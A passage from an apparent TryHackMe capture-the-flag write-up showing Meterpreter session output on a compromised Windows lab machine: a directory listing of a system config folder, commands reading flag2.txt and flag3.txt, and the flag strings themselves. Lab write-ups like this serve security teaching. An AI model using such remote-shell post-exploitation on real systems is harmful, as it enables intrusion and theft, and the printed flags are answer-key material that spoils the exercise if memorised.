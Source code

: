 ```js
100666/rw-rw-r  524288    fil   2019-03-17 22:21:22 +0  SYSTEM{016888cd-6c6f-1
w-                              000                     1de-8d1d-001e0bcde3ec}
                                                        .TMContainer0000000000
                                                        0000000002.regtrans-ms
040777/rwxrwxr  4096      dir   2018-12-12 23:03:05 +0  TxR
wx                              000
100666/rw-rw-r  34        fil   2019-03-17 19:32:48 +0  flag2.txt
w-                              000
040777/rwxrwxr  4096      dir   2010-11-21 02:41:37 +0  systemprofile
wx                              000

meterpreter > cat flag2.txt
`flag{sam_database_elevated_access}`
```

### flag3 in C:\users\jon\Documents:

```js
meterpreter > pwd
C:\users\jon\Documents
meterpreter > cat flag3.txt
`flag{admin_documents_can_be_valuable}`
```

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style='border:none;'></iframe>